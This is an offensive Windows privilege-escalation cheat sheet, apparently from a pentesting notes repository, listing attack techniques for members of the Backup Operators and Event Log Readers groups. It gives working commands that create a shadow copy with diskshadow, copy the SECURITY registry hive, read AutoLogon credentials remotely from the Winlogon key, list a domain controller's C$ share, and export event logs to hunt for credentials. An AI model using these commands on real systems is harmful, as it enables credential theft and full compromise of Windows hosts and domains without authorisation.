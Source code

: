 ## Backup Operators
Members of the Backup Operators group can back up and restore all files on a computer, including making shadow copies.

### LPE Shadow Volume
```
https://github.com/giuliano108/SeBackupPrivilege
Import-Module .\SeBackupPrivilegeCmdLets.dll
Import-Module .\SeBackupPrivilegeUtils.dll

echo @"
set context persistent nowriters
add volume c: alias temp
create
expose %temp% z:
"@ | out-file C:\windows\temp\cmd -encoding ascii

diskshadow.exe /s C:\windows\temp\cmd
Copy-FileSeBackupPrivilege z:\windows\system32\config\SECURITY C:\SECURITY.bak -Overwrite
```

### RCE Search HKLM For Credentials
We have full read access to HKLM\SOFTWARE hive that we can abuse to read AutoLogon credentials for example.

```
$reg = [Microsoft.Win32.RegistryKey]::OpenRemoteBaseKey('LocalMachine', 'dc.htb.local',[Microsoft.Win32.RegistryView]::Registry64)
$winlogon = $reg.OpenSubKey('SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon')
$winlogon.GetValueNames() | foreach {"$_ : $(($winlogon).GetValue($_))"}
```

### RCE Search SMB Shares For Sensitive Files
```
dir \\dc.htb.local\c$\
```

## Event Log Readers
Members of this group can read event logs from the local computers

### LPE Credentials Stored in Logs
Credentials are often stored in the winevent logs, we can find them by searching for these Event ID's
* 4103 - Script Block Logging. 
* 4104 - PowerShell module logging. 
* 4688 - Process Creation logging. 

```
wevtutil.exe epl security C:\security.evtx "/q:*[System [(EventID=4688)]]" 
wevtutil.exe epl Microsoft-Windows-PowerShell/Operational C:\win-ps.evtx "/q:*[System [(EventID=4103 or EventID=4104)]]" 
wevtutil.exe epl "Windows PowerShell" C:\ps.evtx "/q:*[System [(EventID=4103 or EventID=4104)]]"
```
